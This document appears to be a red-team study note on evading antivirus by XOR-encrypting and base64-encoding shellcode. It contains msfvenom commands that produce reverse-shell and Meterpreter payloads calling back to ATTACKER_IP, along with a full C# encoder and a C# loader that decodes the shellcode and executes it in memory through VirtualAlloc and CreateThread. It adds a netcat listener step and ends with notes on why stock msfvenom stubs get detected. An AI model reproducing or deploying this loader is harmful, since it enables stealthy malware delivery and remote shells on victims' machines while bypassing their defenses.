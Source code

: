 ```yaml
---
tags:
  - red-team/host-evasion
date-created: 2025-06-27
dg-publish: true
---
```

~ [[Evading Antivirus - Shellcode]]
### Introduction
---
This is the process of evading AV detection using encoding and encryption using public tools such as MSFVenom (won't work most likely) and custom code.

#### Key Topics
---

- [[#Encoding using MSFVenom|Shows how to use MSFvenom to generate and encode shellcode and explains why it's likely to be flagged by antivirus software.]]
    
- [[#Encoder|Demonstrates a custom C# XOR encoder that obfuscates shellcode and converts it to base64.]]
    
- [[#The decoder|Presents the decoding logic that reverses the encoding process and injects shellcode into memory using Windows API calls.]]
    
- [[#Questions and Problems|Analyzes why AV detects MSFvenom payloads even with XOR and how custom tools bypass this through variation and unpredictability.]]
## Prerequisites
---
- [[shell code injection]]
- [[Evading Antivirus - Shellcode]]
- [[Windows API]]

## Encoding using MSFVenom
---
This is a public tool will most likely get flagged or block by most AV vendors as soon as it touches the disk.

Proving this point:

```shell-session
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

Then compile it using the previous code by replacing the shellcode provided in the output then upload it to the antivirus checker:

![[Shellcode Encoding and Encrypting.png]]

Even encrypting with XOR still gets detected as AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected:

```C
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

Uploading it to virus checker:

![[Shellcode Encoding and Encrypting-1.png]]
## Encoder
---
Here is the payload we are going to use:

```C
msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

Here is a sample code:

```csharp

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

Then compile and execute the encoder:

```C
csc.exe Encrypter.exe
.\Encrypter.exe
```

Output:

![[Shellcode Encoding and Encrypting-2.png]]

Once finished use the base64 encoded data and pass it to the `dataBs64` variable below:
### The decoder
---
This basically reverse the process of encoding starting from base64 -> Xoring the result using the same key:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);
  }
}
```

Then compile the program:

```C
csc.exe EncStageless.cs
```

Before executing setup a netcat listener to listen for hacking:)

```C
nc -nvlp 443
```

Execute:

![[Shellcode Encoding and Encrypting-3.png]]
Then try to upload it to Antivirus.
### Questions and Problems
---
How do the MSFvenom encryption/encoding technique differs from this custom payload of ours? and how is it detected by AV when we use the same technique in this case XOR?


- AV engines has seen MSFvenom payloads thousands of times.
- Even **XOR-encrypted MSFvenom payloads** are predictable:
	- File structure (PE headers, import tables).
	- Metadata (sections, size, alignment).
	- Static artifacts inside stub or decoder logic.
- MSFvenom adds a small **decryptor stub** before running the payload.
- The stub is easily recognizable:

    - XOR loop is always the same.
    - Position and structure predictable.
    
- AV flags this **stub**, not just the payload.